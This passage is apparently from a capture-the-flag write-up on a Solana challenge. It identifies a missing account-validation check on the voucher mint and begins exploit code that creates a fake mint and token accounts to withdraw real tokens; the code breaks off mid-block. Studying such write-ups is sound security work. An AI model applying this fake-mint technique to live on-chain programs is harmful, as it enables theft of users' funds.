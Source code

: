 The challenge is very simple and contains only two functions we care
about: `deposit` and `withdraw`. `deposit` transfers tokens from the
user to the program deposit account, and then mints voucher tokens to
the user. `withdraw` does the exact opposite: burn voucher tokens and
then transfer tokens back to the user.

One of the most common vulnerabilities in Solana programs is to fail to
properly validate the accounts that are provided. We reviewed the
`Transact` accounts structures and attributes which is used for both
`deposit` and `withdraw`. We noticed that the only constraint on the
`voucher_mint` account is that its `mint_authority` is state. This is
insufficient because an attacker could make a new mint account, mint
themselves tokens, and change the mint authority to another account.

```
pub struct Transact<'info> {
...
    #[account(mut, constraint = voucher_mint.mint_authority == COption::Some(state.key()))]
    pub voucher_mint: Account<'info, Mint>,
...
}
```

In summary, we can create a fake voucher mint, mint ourselves fake
voucher tokens, and then use these fake voucher tokens to withdraw from
the challenge program.

### [](https://hackmd.io/@theori/r1gnaGNks#Exploit "Exploit")Exploit

```
// create a "bitoin" token account for the "attacker"
anchor.web3.SystemProgram.createAccount({
    fromPubkey: player.publicKey,
    lamports: minRentForAccount,
    newAccountPubkey: attackerKeyPair.publicKey,
    programId: spl.TOKEN_PROGRAM_ID,
    space: spl.ACCOUNT_SIZE,
}),
spl.createInitializeAccountInstruction(
    attackerKeyPair.publicKey,
    new anchor.web3.PublicKey(accounts.bitcoinMint),
    player.publicKey
),

// create a fake voucher mint account
anchor.web3.SystemProgram.createAccount({
    fromPubkey: player.publicKey,
    lamports: minRentForMint,
    newAccountPubkey: mintKeyPair.publicKey,
    programId: spl.TOKEN_PROGRAM_ID,
    space: spl.MINT_SIZE,
}),
spl.createInitializeMintInstruction(
    mintKeyPair.publicKey,
    6,
    player.publicKey,
    null
),

// create a fake voucher token account for the "attacker"
anchor.web3.SystemProgram.createAccount({
    fromPubkey: player.publicKey,
    lamports: minRentForAccount,
    newAccountPubkey: accountKeyPair.publicKey,
    programId: spl.TOKEN_PROGRAM_ID,
```